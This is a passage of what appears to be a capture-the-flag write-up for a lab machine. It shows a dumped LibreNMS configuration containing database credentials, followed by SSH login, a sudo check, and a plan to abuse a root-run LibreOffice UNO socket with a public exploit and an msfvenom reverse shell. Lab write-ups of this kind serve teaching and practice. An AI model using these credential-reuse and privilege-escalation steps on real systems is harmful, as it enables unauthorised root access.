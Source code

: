 ```markdown
flow-monitor":false,"cisco-remote-access-monitor":false,"cisco-cef":false,"slas":false,"cisco-mac-accounting":false,"cipsec-tunnels":false,"cisco-ace-loadbalancer":false,"cisco-ace-serverfarms":false,"cisco-asa-firewall":false,"cisco-voice":false,"cisco-cbqos":false,"cisco-otv":false,"cisco-qfp":false,"cisco-vpdn":false,"nac":false,"netscaler-vsvr":false,"aruba- implemented","diskio.c"],"syslog_purge":30,"top_devices":true,"top_ports":true,"traceroute":"traceroute","transit_descr":["transit"],"twofactor":"false","twofactor_lock":"0","unix-agent-connection-time-out":10,"unix-agent-read-time-out":10,"unix-agent":{"connection-timeout":10,"port":6556,"read-timeout":10},"update":1,"update_channel":"master","uptime_warning":86400,"user":"librenms","vertical_summary":0,"virsh":"\/usr\/bin\/virsh","warn":{"ifdown":true},"warn_colour":"#ffeeee","warn_colour_alt":"#ffcccc","web_mouseover":true,"webui":{"availability_map_box_size":165,"availability_map_compact":false,"availability_map_sort_status":false,"availability_map_use_device_groups":false,"custom_css":[],"default_dashboard_id":0,"dynamic_graphs":false,"global_search_result_limit":8,"graph_stacked":false,"graph_type":"png","min_graph_height":300},"whois":"\/usr\/bin\/whois","xirrus_disable_stations":false,"log_dir":"\/opt\/librenms\/logs","distributed_poller_name":"formulax","validation":{"encryption":{"test":"eyJpdiI6IlJQOG52aUtyUGFZK05SR295TnVaV3c9PSIsInZhbHVlIjoiUXJQRmZUTk9ENWFyR1dkVGxtNGQ1QT09IiwibWFjIjoiOWUxMDA4ZDQ3ZjMzMDI5ZDIxNGMzNWNkNWYwZmViZjE3YTU1YTI0ZGRlZDFkZTYxYmVjNDJkZmFmMDEyODMyZiIsInRhZyI6IiJ9"}},"base_url":"\/","applied_site_style":"light","html_dir":"\/opt\/librenms\/html","rrd_dir":"\/opt\/librenms\/rrd","mib_dir":"\/opt\/librenms\/mibs","log_file":"\/opt\/librenms\/logs\/librenms.log","plugin_dir":"\/opt\/librenms\/html\/plugins","temp_dir":"\/tmp","irc_nick":"LibreNMS","irc_chan":["##librenms"],"page_title_suffix":"LibreNMS","time":{"now":1710156300,"onehour":1710152700,"fourhour":1710141900,"sixhour":1710134700,"twelvehour":1710113100,"day":1710069900,"twoday":1709983500,"week":1709551500,"twoweek":1708946700,"month":1707477900,"twomonth":1704799500,"threemonth":1702121100,"sixmonth":1694085900,"year":1678620300,"twoyear":1647084300},"db_host":"localhost","db_name":"librenms","db_user":"kai_relay","db_pass":"mychemicalformulaX","db_port":"3306","db_socket":""}f
```
Use this credential to open an SSH session for user `kai_relay`. In this shell, verify `sudo` configuration for `kai_relay`
```markdown
> sudo -l

Matching Defaults entries for kai_relay on forumlax:
    env_reset, timestamp_timeout=0, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_reset,
    timestamp_timeout=0

User kai_relay may run the following commands on forumlax:
    (ALL) NOPASSWD: /usr/bin/office.sh

> cat /usr/bin/office.sh 

#!/bin/bash
/usr/bin/soffice --calc --accept="socket,host=localhost,port=2002;urp;" --norestore --nologo --nodefault --headless
```
This `/usr/bin/soffice` Libre Office binary launches the `calc` application (the Libre Office spreadsheet program, similar to Excel).<br>
<br>
The flag `--accept="socket,host=localhost,port=2002;urp;"` enables a socket for remote communication with Libre Office, listening on localhost (the same machine) at port 2002 using URP (UNO remote protocol).<br>
<br>
The flag `--headless` runs Libre Office in "headless" mode, meaning it operates without a graphical user interface (GUI).<br>
<br>
In summary, the command launches Libre Office's `calc` and sets up a socket connection on port 2002 for batch processing, automation, or scripting tasks.<br>
<br>
Looking for exploits we come across this one: https://0day.today/exploit/32356<br>
<br>
The exploit needs to be modified in the last line, just add the executable you want to be run as root. In out case, it will be an `msfvenom` elf shell which we would have previously transferred to the host in path `/var/tmp/shell`
```markdown
```